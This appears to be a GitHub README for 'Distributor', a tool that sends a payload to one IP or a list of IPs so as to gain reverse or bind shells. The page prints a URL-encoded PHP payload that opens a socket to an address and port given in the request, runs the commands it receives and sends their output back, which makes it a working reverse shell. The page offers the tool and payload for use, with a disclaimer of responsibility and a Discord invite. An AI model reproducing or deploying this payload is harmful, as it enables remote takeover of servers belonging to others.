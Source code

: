 ## Welcome to Distributor Home Page

Distributor is a Tool that sends Payload to multiple IP's (in a list) or single IP u input. The Payload will create a response with given commands for a Reverse- / Bind Shell.

### Note

Im not responsible for any Damage you'll do!

```markdown
The Payload Looks like this ==>
`%3c%3f%70%68%70%20%24%61%64%64%72%3d%24%5f%52%45%51%55%45%53%54%5b%27%61%64%64%72%27%5d%3b%24%70%6f%72%74%3d%24%5f%52%45%51%55%45%53%54%5b%27%70%6f%72%74%27%5d%3b%69%66%20%28%21%28%24%73%6f%63%6b%3d%66%73%6f%63%6b%6f%70%65%6e%28%24%61%64%64%72%2c%24%70%6f%72%74%29%29%29%64%69%65%3b%77%68%69%6c%65%20%28%21%66%65%6f%66%28%24%73%6f%63%6b%29%29%20%20%7b%24%63%6d%64%20%20%3d%20%66%67%65%74%73%28%24%73%6f%63%6b%29%3b%24%70%69%70%65%20%3d%20%70%6f%70%65%6e%28%24%63%6d%64%2c%27%72%27%29%3b%77%68%69%6c%65%20%28%21%66%65%6f%66%28%24%70%69%70%65%29%29%66%77%72%69%74%65%20%28%24%73%6f%63%6b%2c%20%66%67%65%74%73%28%24%70%69%70%65%29%29%3b%70%63%6c%6f%73%65%28%24%70%69%70%65%29%3b%7d%66%63%6c%6f%73%65%28%24%73%6f%63%6b%29%3b%3f%3e`
Note: You can user your own Payload if you want to!
Before u look for other Tools because Distributor hasn't enough feautures, just Remember:
1. This tool is in development. For ideas etc. join my DC https://discord.gg/QCY6CuajqK.
2. It will be one of the best Payloaders ever!
3. You can help us develope and more.

For more details dm me : ASM_Royal#6666
```

### Showcase

![unknown](https://user-images.githubusercontent.com/89786570/180613217-ce41f9ec-b2b5-440b-a181-c25701de1655.png)

![d](https://user-images.githubusercontent.com/89786570/181810901-a0845351-ce9a-42fc-9d09-e779ddfa2129.gif)

![2022-07-23-17-18-58 (1)](https://user-images.githubusercontent.com/89786570/180613955-a4c75eb0-4585-4cfd-b283-750d479dcff0.gif)

![27AAB0C2-23B9-4270-B191-0E3046D8D29F](https://user-images.githubusercontent.com/89786570/180662753-0a7d1bbe-2ab9-408f-b70d-3452d31589ce.gif)

![unknown1](https://user-images.githubusercontent.com/89786570/180613221-552e9fd6-a57c-4327-acb3-fd175fbafecf.png)
